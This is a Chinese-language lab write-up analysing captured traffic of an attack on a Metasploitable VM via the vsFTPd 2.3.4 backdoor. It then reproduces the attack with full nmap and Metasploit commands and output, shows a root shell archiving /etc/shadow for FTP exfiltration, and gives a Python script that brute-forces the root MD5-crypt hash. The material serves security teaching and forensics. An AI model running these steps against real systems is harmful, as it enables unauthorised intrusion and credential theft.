


# 二、流量分析

# 1. 分析过程

## 1.1 寻找靶机与攻击机

主机: `192.168.2.222`


首先观察流量统计分析，发现192.168.2.183与主机192.168.2.222的流量较大且数量相近，Burst Rate和Burst Start也完全相同，初步推测192.168.2.183为攻击机，192.168.2.222位靶机。

## 1.2 初步分析

### 1.2.1 端口扫描

通过过滤规则`ip.addr eq 192.168.2.222 and ip.addr eq 192.168.2.183` 过滤出192.168.2.183与主机192.168.2.222的流量。


分析过滤结果，从数据包72到数据包2261,192.168.2.183不断通过54547端口向192.168.2.222的各个常用端口发送TCP SYN数据包。大部分回应报文为TCP RST，部分报文为TCP SYN/ACK数据包，即使建立连接后，192.168.2.183也会发送RST包。


根据上述信息，分析可知192.168.2.183对192.168.2.222进行了SYN端口扫描。

### 1.2.2 FTP连接

继续分析报文，数据包2268~2356（流1083），攻击机与靶机21号端口的FTP服务建立连接。


追踪TCP流，可知靶机的FTP服务使用的是vsFTPd 2.3.4,之后连接关闭


### 1.2.3 SSH连接

分析数据包2270~2359(流1084),攻击机与靶机的22号端口进行了SSH服务连接，之后连接关闭。


分析可知，靶机的SSH服务使用的是SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1


### 1.2.4 Telnet连接

数据包2272~2380(流1085), 攻击机与靶机的23号端口进行了Telnet服务连接，之后连接关闭。


### 1.2.5 SMTP连接

数据包2276~2406(流1086), 攻击机与靶机的25号端口的SMTP服务建立连接，之后连接关闭




## 1.3 FTP分析

### 1.3.1 漏洞分析

数据包4169~5043的部分数据包(流1193)， 攻击机与靶机的FTP服务建立了连接，用户名为CbNDRk:)，密码为d6，观察其用户名，猜测其使用了vsFTPd v2.3.4 backdoor漏洞，之后该连接没有进行其他通信，直至超时退出。


查询vsFTPd v2.3.4 backdoor漏洞可知，对于以:)结尾的用户名和任意密码，vsFTPd v2.3.4会开启6200端口，并在此端口开启具有root权限的后门shell。

### 1.3.2 分析6200端口

在利用漏洞前，攻击机曾尝试与靶机的6200端口连接(流1192)，但由于此时攻击尚未进行，靶机的6200端口处于关闭状态，连接尚未建立。


在实施攻击后，攻击机再次尝试与靶机的6200端口进行连接(流1195)，数据包4178~6678中部分数据包显示了通讯数据，表明攻击机获得了靶机的具有root权限的shell。


之后攻击机使用该shell执行了以下指令。

- id: 查看当前用户为root, 所在组为root
- uname -a: 查看靶机信息
- whoami: 查看当前用户为root
- adduser newuser: 添加了一个用户newuser, 对应口令为anewuser。
- cd /home/newuser tar czvf user.tgz /etc/passwd /etc/shadow: 将/etc/passwd和/etc/shadow压缩至/home/newuser/user.tgz中。
- chmod 644 user.tgz : 更改user.tgz文件的权限为644。
- vi /home/nuwuser/hello.sh，创建了hello.sh文件, 输入了#!/bin/sh，但没有保存
- exit: 退出shell。 

完整通讯内容如下：

```shell
id
uid=0(root) gid=0(root)
nohup  >/dev/null 2>&1
echo KAKSoVtXxY7SStzs
KAKSoVtXxY7SStzs
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
whoami
root
adduser newuser
Adding user `newuser' ...
Adding new group `newuser' (1004) ...
Adding new user `newuser' (1004) with group `newuser' ...
The home directory `/home/newuser' already exists.  Not copying from `/etc/skel'.
Enter new UNIX password: anewuser
Retype new UNIX password: anewuser
passwd: password updated successfully
Changing the user information for newuser
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
y
Is the information correct? [y/N] y
sh: line 7: y: command not found
cd /home/newuser
tar czvf user.tgz /etc/passwd /etc/shadow
tar: Removing leading `/' from member names
ls
test.sh
user.tgz
ls -l
total 8
-rwxr-xr-x 1 newuser newuser   31 May  4 23:38 test.sh
-rw------- 1 root    root    1311 May  5 00:08 user.tgz
chmod 644 user.tgz
vi /home/newuser/hello.sh
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal
.[1;24r.[?25h.[?8c.[?25h.[?0c.[27m.[24m.[0m.[H.[J.[?25l.[?1c.[24;1H"/home/newuser/hello.sh" [New File].[2;1H.[1m.[34m~                                                                               .[3;1H~                                                                               .[4;1H~                                                                               .[5;1H~                                                                               .[6;1H~                                                                               .[7;1H~                                                                               .[8;1H~                                                                               .[9;1H~                                                                               .[10;1H~                                                                               .[11;1H~                                                                               .[12;1H~                                                                               .[13;1H~                                                                               .[14;1H~                                                                               .[15;1H~                                                                               .[16;1H~                                                                               .[17;1H~                                                                               .[18;1H~                                                                               .[19;1H~                                                                               .[20;1H~                                                                               .[21;1H~                                                                               .[22;1H~                                                                               .[23;1H~                                                                               .[1;1H.[?25h.[?0ci#!/bin/sh.h.:q.:q!
.[?25l.[?1c.[0m#!/bin/sh..[?25h.[?0c...[?25l.[?1c.[24;1H.[K.[24;1H:q
.[1m.[37m.[41mE37: No write since last change (add ! to override).[1;8H.[?25h.[?0c.[?25l.[?1c.[0m.[24;1H.[K.[24;1H:q!
.[?25h.[?0c.[24;1H.[K.[24;1H:q!
sh: line 14: :q!: command not found
quit
sh: line 15: quit: command not found
:q!
sh: line 16: :q!: command not found
ls
test.sh
user.tgz
quit
sh: line 18: quit: command not found
exit

```


### 1.3.3 脚本分析

根据以上攻击时间分析，推测使用了脚本攻击，使用的是Metaploit中的`exploit/unix/ftp/vsftpd_234_backdoor`攻击脚本。

### 1.3.4 文件下载

在创建了user.tgz文件后，攻击机再次与靶机建立FTP连接(流1195)， 此次使用上述用户newuser进行登录，并从靶机上下载了user.tgz文件，第一次下载失败(数据包4488，时间477.478446)，推测是没有用户newuser读权限导致的，因此在shell内修改了该文件的权限为466（包4545,时间498.729666)。之后再次进行下载，此次下载成功。

- 数据包4488，第一次请求下载user.tgz
- 数据包4489,第一次下载失败

- 数据包4545，修改user.tgz权限

  

- 数据包4559，第二次尝试下载user.tgz

- 数据包4564，第二次下载成功

以下为FTP连接数据

```
220 (vsFTPd 2.3.4)
USER newuser
331 Please specify the password.
PASS anewuser
230 Login successful.
SYST
215 UNIX Type: L8
TYPE I
200 Switching to Binary mode.
PORT 192,168,2,183,157,31
200 PORT command successful. Consider using PASV.
RETR user.tgz
550 Failed to open file.
PORT 192,168,2,183,236,171
200 PORT command successful. Consider using PASV.
RETR user.tgz
150 Opening BINARY mode data connection for user.tgz (1311 bytes).
226 Transfer complete.
QUIT
221 Goodbye.
```

## 1.4 破解口令

将传输过程中的user.tgz下载。查看文件/etc/shadow中root对应条目。

`root:$1$AEvN/LAF$UE4aDFyWJa.AzVZkDnflq0:18387:0:99999:7:::`

shadow文件内条目格式为**$id$salt$hashed**

- 加密模式: 根据$1$，可知口令使用MD5加密。
- 盐值 : AEvN/LAF
- hash值为UE4aDFyWJa.AzVZkDnflq0

已知密码长度为8位，均为小写字母，且最后三位为msf，使用如下python脚本进行暴力破解。

```python
import crypt   ## 导入 Linux 口令加密库
def testPass(cryptPass, passwd):
    salt=cryptPass[cryptPass.find("$"):cryptPass.rfind("$")]
    cryptWord=crypt.crypt(passwd,salt)
    if (cryptWord==cryptPass):
        print ("salt:", salt)
        print ("[+]Found Password:"+passwd+"\n" )
        return True
    else:
        return False

def main():
    hashpasswd = "root:$1$AEvN/LAF$UE4aDFyWJa.AzVZkDnflq0:18387:0:99999:7:::"
    user=hashpasswd.split(":")[0]                     ## 获得用户名
    cryptPass=hashpasswd.split(":")[1].strip(' ')     ## 获得密码字段
    print ("[*] Cracking Password for:"+user)
    print (cryptPass)
    # 暴力破解
    # aaaaamsf - zzzzzmsf
    for i in range(97,123):
        for j in range(97,123):
            for k in range(97,123):
                for l in range(97,123):
                    for m in range(97,123):
                        if (testPass(cryptPass,chr(i)+chr(j)+chr(k)+chr(l)+chr(m) + "msf")):
                            return

main()
```

破解结果如下：



可知口令为adminmsf。

# 2. 还原攻击

## 2.1 基础信息

攻击机：

- IP：192.168.12.131
- MAC：00:0c:29:f9:58:63

靶机：

- ip: 192.168.12.133
- MAC:00:0c:29:20:86:95

## 2.2 攻击步骤还原

以下攻击过程删除了无效操作，仅展示关键操作，攻击步骤复现过程抓取的数据包见re_attack.pcapng

### 2.2.1端口扫描

对靶机进行端口扫描和版本扫描，根据扫描的端口从21到8180，猜测是默认端口，又对服务版本的检测，因此使用-sV。

命令:`sudo nmap -Pn -sV 192.168.12.133`

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -Pn -sV 192.168.12.133
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 22:56 EDT
Nmap scan report for 192.168.12.133
Host is up (0.00055s latency).
Not shown: 977 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
53/tcp   open  domain      ISC BIND 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec        netkit-rsh rexecd
513/tcp  open  login       OpenBSD or Solaris rlogind
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  bindshell   Metasploitable root shell
2049/tcp open  nfs         2-4 (RPC #100003)
2121/tcp open  ftp         ProFTPD 1.3.1
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
5900/tcp open  vnc         VNC (protocol 3.3)
6000/tcp open  X11         (access denied)
6667/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
MAC Address: 00:0C:29:20:86:95 (VMware)
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.26 seconds
```


### 2.2.2 进行脚本攻击

使用`Metasploit`中的`exploit/unix/ftp/vsftpd_234_backdoor`攻击脚本进行攻击，并通过`shell`进行一系列操作（去除无效操作），以下为模拟操作：

```
┌──(kali㉿kali)-[~]
└─$ msfconsole
                                                  

         .                                         .                                                                                             
 .                                                                                                                                               
                                                                                                                                                 
      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o                                                                                
       '   dB'                     BBP                                                                                                           
    dB'dB'dB' dBBP     dBP     dBP BB                                                                                                            
   dB'dB'dB' dBP      dBP     dBP  BB                                                                                                            
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB                                                                                                            
                                                                                                                                                 
                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP                                                                  
          .                  .                  dB' dBP    dB'.BP                                                                                
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP                                                                      
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP                                                                       
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP                                                                        
                                                                                                                                                 
                                                                    .                                                                            
                .                                                                                                                                
        o                  To boldly go where no                                                                                                 
                            shell has gone before                                                                                                
                                                                                                                                                 

       =[ metasploit v6.3.4-dev                           ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post       ]
+ -- --=[ 968 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use help <command> to learn more 
about any command
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
[*] No payload configured, defaulting to cmd/unix/interact
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 192.168.12.133
RHOST => 192.168.12.133
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 192.168.12.133:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.12.133:21 - USER: 331 Please specify the password.
[+] 192.168.12.133:21 - Backdoor service has been spawned, handling...
[+] 192.168.12.133:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 1 opened (192.168.12.131:46743 -> 192.168.12.133:6200) at 2023-05-02 23:05:00 -0400

id
uid=0(root) gid=0(root)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
whoami
root
adduser newuser
Adding user `newuser' ...
Adding new group `newuser' (1003) ...
Adding new user `newuser' (1003) with group `newuser' ...
Creating home directory `/home/newuser' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: anewuser
Retype new UNIX password: anewuser
passwd: password updated successfully
Changing the user information for newuser
Enter the new value, or press ENTER for the default
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
y
Is the information correct? [y/N] y
sh: line 10: y: command not found
cd /home/newuser
tar czvf user.tgz /etc/passwd /etc/shadow
tar: Removing leading `/' from member names
/etc/passwd
/etc/shadow
ls
user.tgz
```


开启另一个中端，建立FTP连接，下载user.tgz,第一次下载失败

```
┌──(kali㉿kali)-[~]
└─$ ftp 192.168.12.133
Connected to 192.168.12.133.
220 (vsFTPd 2.3.4)
Name (192.168.12.133:kali): newuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> system
215 UNIX Type: L8
ftp> binary
200 Switching to Binary mode.
ftp> get user.tgz
local: user.tgz remote: user.tgz
229 Entering Extended Passive Mode (|||60977|).
550 Failed to open file.
```


由于权限错误，回到Metaploit的shell窗口，修改文件的权限：

```shell
chmod 644 user.tgz
```


修改权限后，返回FTP终端，再次下载user.tgz文件，此次下载成功。

```
ftp> get user.tgz
local: user.tgz remote: user.tgz
229 Entering Extended Passive Mode (|||16902|).
150 Opening BINARY mode data connection for user.tgz (1266 bytes).
100% |****************************************************************************************************|  1266       19.16 MiB/s    00:00 ETA
226 Transfer complete.
1266 bytes received in 00:00 (2.07 MiB/s)
```


退出shell。

至此，攻击步骤还原完毕，得到了user.tgz文件。


攻击步骤：

```
sudo nmap -Pn -sV 192.168.12.133
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.12.133
exploit
id
uname -a
whoami
adduser newuser
cd /home/newuser
tar czvf user.tgz /etc/passwd /etc/shadow
ftp 192.168.12.133
newuser
system
binary
get user.tgz
chmod 644 user.tgz
get user.tgz
```

